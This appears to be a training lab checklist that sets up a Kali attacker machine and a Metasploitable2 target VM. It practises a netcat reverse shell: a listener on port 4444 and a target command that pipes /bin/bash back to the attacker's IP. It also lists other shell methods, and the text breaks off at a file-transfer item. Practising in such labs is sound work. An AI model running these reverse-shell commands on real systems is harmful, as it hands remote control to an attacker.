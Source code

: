 # Last Day - Stendelon tasks

## Env setup
- [ ] Run Kali Linxu
- [ ] Run Metasploitable2
- [ ] Login to Kali
- [ ] Login to Metasploitable2


## Reverse shell (netcat)
- [ ] Confirm

#### On Kali
`netcat -lvnp 4444`

#### On Meta2
`netcat 10.0.2.4 4444 -e /bin/bash`

## Reverse shell (other tools)
- [ ] Confirm

#### On Kali
`netcat -lvnp 4444`

#### On Meta2
- What if netcat is not avaiable ?
- Try other way to setup `reverse shell`
	- bash, php, perl, ruby, telnet

   
## Transfer files
- [ ] Confirm

Transfer file from machine to machine by 

